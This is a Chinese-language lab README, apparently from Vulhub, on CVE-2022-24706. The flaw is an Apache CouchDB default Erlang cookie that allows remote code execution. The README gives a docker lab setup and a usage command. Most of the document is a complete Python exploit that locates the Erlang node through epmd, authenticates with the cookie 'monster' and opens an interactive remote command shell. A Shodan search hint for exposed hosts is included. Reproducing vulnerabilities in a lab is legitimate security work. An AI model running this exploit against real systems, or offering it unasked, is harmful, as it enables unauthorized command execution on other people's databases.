

# Apache CouchDB 分布式协议代码执行 CVE-2022-24706

Apache CouchDB是一个Erlang开发的NoSQL数据库。

由于Erlang的特性，其支持分布式计算，分布式节点之间通过Erlang/OTP Distribution协议进行通信。攻击者如果知道通信时使用的Cookie，即可在握手包通过认证并执行任意命令。

在CouchDB 3.2.1及以前版本中，使用了默认Cookie，值为“monster”。

参考链接：

- https://docs.couchdb.org/en/3.2.2-docs/cve/2022-24706.html
- https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
- https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/misc/erlang_cookie_rce.rb
- https://github.com/sadshade/CVE-2022-24706-CouchDB-Exploit

## 漏洞环境

Vulhub执行如下命令启动一个Apache CouchDB 3.2.1服务：

```
docker-compose up -d
```

服务启动后，会监听三个端口：

- 5984: Apache CouchDB Web管理接口
- 4369: Erlang端口映射服务（epmd）
- 9100: 集群节点通信和运行时自省服务（代码执行实际发生在这个端口中）

其中，Web管理接口和epmd服务端口是固定的，而集群通信接口在Vulhub中是9100。实际环境下，这个端口通常是随机的，我们可以通过epmd服务来获取这个端口的数值。

## 漏洞复现

我们可以使用[这个POC](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2022-24706/poc.py)来利用本漏洞。这个POC会先通过目标的4369端口epmd服务获取集群通信的端口，也就是9100，然后再使用默认Cookie来控制节点执行任意命令。

```
python poc.py target-ip 4369
```



## 漏洞POC

- https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2022-24706/poc.py

```python
# Exploit Title: Remote Command Execution via Erlang Distribution Protocol 
# Date: 2022-01-21
# Exploit Author: Konstantin Burov, @_sadshade
# Software Link: https://www.erlang.org/doc/apps/erts/erl_dist_protocol.html
# Version: N/A
# Tested on: Kali 2021.2
# Based on 1F98D's Erlang Cookie - Remote Code Execution
# Shodan: port:4369 "name "
# References:
#  https://www.exploit-db.com/exploits/49418
#  https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
#  https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd#erlang-cookie-rce
# 
#
#!/usr/local/bin/python3

import socket
from hashlib import md5
import struct
import sys
import re
import time

TARGET = sys.argv[1]
EPMD_PORT = int(sys.argv[2]) # Default Erlang distributed port
COOKIE = "monster" # Default Erlang cookie for CouchDB 
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Request for nodes list

# Some data:
NAME_MSG  = b"\x00\x15n\x00\x05\x00\x07\x49\x9cAAAAAA@AAAAAAA"
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"
CTRL_DATA  = b"\x83h\x04a\x06gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03"
CTRL_DATA += b"\x00\x00\x00\x00\x00w\x00w\x03rex"


def compile_cmd(CMD):
    MSG  = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
    MSG += struct.pack(">H", len(CMD))
    MSG += bytes(CMD, 'ascii')
    MSG += b'jw\x04user'
    PAYLOAD = b'\x70' + CTRL_DATA + MSG
    PAYLOAD = struct.pack('!I', len(PAYLOAD)) + PAYLOAD
    return PAYLOAD

print("Remote Command Execution via Erlang Distribution Protocol.\n")

# Connect to EPMD:
try:
    epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
    print("Couldnt connect to EPMD: %s\n terminating program" % msg)
    sys.exit(1)
    
epm_socket.send(EPM_NAME_CMD) #request Erlang nodes
if epm_socket.recv(4) == b'\x00\x00\x11\x11': # OK
    data = epm_socket.recv(1024)
    data = data[0:len(data) - 1].decode('ascii')
    data = data.split("\n")
    if len(data) == 1:
        choise = 1
        print("Found " + data[0])
    else:
        print("\nMore than one node found, choose which one to use:")
        line_number = 0
        for line in data:
            line_number += 1
            print(" %d) %s" %(line_number, line))
        choise = int(input("\n> "))
        
    ERLNAG_PORT = int(re.search("\d+$",data[choise - 1])[0])
else:
    print("Node list request error, exiting")
    sys.exit(1)
epm_socket.close()

# Connect to Erlang port:
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
    print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
    sys.exit(1)
   
s.send(NAME_MSG)
s.recv(5)
challenge = s.recv(1024)     # Receive "challenge" message
print(challenge)
challenge = struct.unpack(">I", challenge[9:13])[0]

#print("Extracted challenge: {}".format(challenge))

# Add Challenge Digest
CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii")
    + bytes(str(challenge), "ascii")).digest()
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)

if len(CHALLENGE_RESPONSE) == 0:
    print("Authentication failed, exiting")
    sys.exit(1)

print("Authentication successful")
print("Enter command:\n")

data_size = 0
while True:
    if data_size <= 0:
        CMD = input("> ")
        if not CMD:
            continue
        elif CMD == "exit":
            sys.exit(0)
        s.send(compile_cmd(CMD))
        data_size = struct.unpack(">I", s.recv(4))[0] # Get data size
        s.recv(45)              # Control message
        data_size -= 45         # Data size without control message
        time.sleep(0.1)
    elif data_size < 1024:        
        data = s.recv(data_size)
        #print("S---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[3:].decode())
        data_size = 0
    else:        
        data = s.recv(1024)
        #print("L---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[4:].decode())
        data_size -= 1024
```

